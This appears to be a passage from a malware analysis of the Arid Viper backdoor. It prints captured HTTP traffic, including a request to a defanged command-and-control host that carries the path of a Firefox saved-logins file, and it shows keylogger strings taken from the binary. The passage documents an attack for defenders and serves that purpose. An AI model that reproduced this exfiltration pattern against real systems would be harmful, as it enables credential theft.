 HTTP/1.1 200 OK

Server: nginx

Date: Thu, 27 Aug 2015 11:48:19 GMT

Content-Type: text/html

Content-Length: 7

Connection: keep-alive

Keep-Alive: timeout=60

X-Powered-By: PHP/5.3.10-1ubuntu3.17

Vary: Accept-Encoding



done

GET /designs/send_request_r_data.php?s1=[redacted]&path=C:/Users/COMPUTER/AppData/Roaming/Mozilla/Firefox/Profiles/[redacted].default/logins.json HTTP/1.1

Accept: text/*

User-Agent: Realtek

Accept-Language: en-us

Content-Type: application/x-www-form-urlencoded

Host: smilydesign [.] com

Cache-Control: no-cache


HTTP/1.1 200 OK

Server: nginx

Date: Thu, 27 Aug 2015 11:48:19 GMT

Content-Type: text/html

Content-Length: 7

Connection: keep-alive

Keep-Alive: timeout=60

X-Powered-By: PHP/5.3.10-1ubuntu3.17

Vary: Accept-Encoding


done
In addition, analysis of the Arid Viper backdoor binary shows evidence of keylogging capabilities:

00000006E2C4   00000046F2C4      0   [The Right KeyPressed]

00000006E2F4   00000046F2F4      0   [The LeFT Key Pressed]

00000006E324   00000046F324      0   [The Down Key Is Pressed]
